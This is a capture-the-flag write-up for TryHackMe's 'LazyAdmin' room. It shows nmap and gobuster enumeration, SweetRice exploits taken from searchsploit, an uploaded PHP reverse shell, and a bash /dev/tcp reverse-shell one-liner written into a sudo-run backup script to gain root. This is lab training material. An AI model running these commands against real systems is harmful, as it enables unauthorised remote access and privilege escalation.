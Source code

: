 # LazyAdmin

**Room Link:** [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)



### Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```



<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit sweet rice
searchsploit -m php/webapps/40718.txt
```

<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://crackstation.net/](https://crackstation.net/)

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Tried to ssh with the credentials but it didn't work, went back to searchsploit because I saw a python script before but it needed credentials. I modified the script to take the input because I waa lazy.&#x20;

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
searchsploit sweet rice
searchsploit -m php/webapps/40716.py
python 40716.py
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

The php reverse shell setups up a reverse shell so I setup a nc listener on Kali and went to the URL the script mentioned.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

The user has access to run backup.pl without a password, I checked the the file and all it does is run a bash script. We have access to write to copy.sh so I changed it to a reverse shell one liner and setup my listener on Kali.

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8080
```

**Victim**

```
echo "bash -c 'bash -i >& /dev/tcp/$KALI/8080 0>&1'"> copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>















